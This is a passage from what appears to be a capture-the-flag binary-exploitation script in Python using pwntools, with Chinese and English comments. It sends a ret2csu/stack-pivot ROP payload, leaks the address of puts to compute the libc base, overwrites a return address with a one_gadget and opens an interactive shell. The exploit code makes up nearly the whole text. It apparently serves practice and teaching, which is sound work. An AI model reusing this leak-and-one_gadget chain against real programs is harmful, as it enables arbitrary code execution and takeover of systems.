payload2+=p64(rsi_addr)+p64(0)+p64(0x4006E0)#why is there an address here
#这一个4006E0仅仅是ret2csu执行了pop之后的ret的返回的地址。
#至于怎么返回到one_gadget上的，是因为read的返回地址被read自己给改了
#payload2中的第一个p64(0)是去占个地方，因为栈迁移本身的特性，迁移后的第一个内存单元不执行
p.sendafter('k now!\n',payload2)
puts_addr=u64(p.recv(6).ljust(8,'\x00'))
libc_base=puts_addr-libc.symbols['puts']
one_gadget=libc_base+0x4f432
p.sendline(p64(one_gadget))#why p64 here #只要是发送地址 就要经过打包之后发送
p.interactive()
```
